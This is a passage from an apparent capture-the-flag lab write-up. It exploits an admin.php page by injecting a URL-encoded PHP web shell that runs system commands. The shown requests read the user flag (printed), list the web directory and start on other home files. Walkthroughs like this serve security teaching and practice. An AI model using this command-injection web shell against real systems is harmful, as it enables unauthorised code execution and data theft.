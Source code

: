 ```
total 3148
drwxr-xr-x 2 xalvas xalvas    4096 Jun 27 13:07 alarmclocks
drwxr-x--- 2 root   xalvas    4096 Jun 29 14:00 app
-rw-r--r-- 1 root   root       225 Jun 27 18:16 dontforget.txt
-rw-r--r-- 1 root   root      1730 Dec 25 00:44 intrusions
drwxrwxr-x 4 xalvas xalvas    4096 Jun 27 18:09 peda
-rw-r--r-- 1 xalvas xalvas 3196724 Jun 27 12:23 recov.wav
-r--r--r-- 1 root   root        33 Jun 27 18:19 user.txt
```

Let's recover the `user.txt` flag first before we explore the other files that
might help us escalate our priviledges to get root..

```
http://10.10.10.27/admin.php?html=<%3Fphp++if(isset(%24_REQUEST['cmd'])){+++++++++echo+"<pre>"%3B+++++++++%24cmd+%3D+(%24_REQUEST['cmd'])%3B+++++++++system(%24cmd)%3B+++++++++echo+"<%2Fpre>"%3B+++++++++die%3B+}++%3F>&cmd=cat+%2Fhome%2Fxalvas%2Fuser.txt
```

```
0790e7be60d5cd7faeeb9ac550762e5e
```

Neat.. so we got user. Now we need to see how to get root.

### OWN MACHINE

Let's poke around and see what other information we can obtain:

```
http://10.10.10.27/admin.php?html=<%3Fphp++if(isset(%24_REQUEST['cmd'])){+++++++++echo+"<pre>"%3B+++++++++%24cmd+%3D+(%24_REQUEST['cmd'])%3B+++++++++system(%24cmd)%3B+++++++++echo+"<%2Fpre>"%3B+++++++++die%3B+}++%3F>&cmd=ls+-l
```

```
total 276
-r--r--r-- 1 www-data root   1865 Jun 27 11:36 admin.php
-r--r--r-- 1 www-data root  56837 Jun 27 11:35 bg.png
-r--r--r-- 1 www-data root    514 Jun 27 13:18 index.html
-r--r--r-- 1 www-data root 212864 Jun 27 11:35 leet.png
drwxrwxrwx 2 www-data root   4096 Dec 25 01:16 uploads
```

```
http://10.10.10.27/admin.php?html=<%3Fphp++if(isset(%24_REQUEST['cmd'])){+++++++++echo+"<pre>"%3B+++++++++%24cmd+%3D+(%24_REQUEST['cmd'])%3B+++++++++system(%24cmd)%3B+++++++++echo+"<%2Fpre>"%3B+++++++++die%3B+}++%3F>&cmd=pwd
```

```
/var/www/html
```

```
http://10.10.10.27/admin.php?html=<%3Fphp++if(isset(%24_REQUEST['cmd'])){+++++++++echo+"<pre>"%3B+++++++++%24cmd+%3D+(%24_REQUEST['cmd'])%3B+++++++++system(%24cmd)%3B+++++++++echo+"<%2Fpre>"%3B+++++++++die%3B+}++%3F>&cmd=cat+%2Fhome%2Fxalvas%2Fdontforget.txt
```

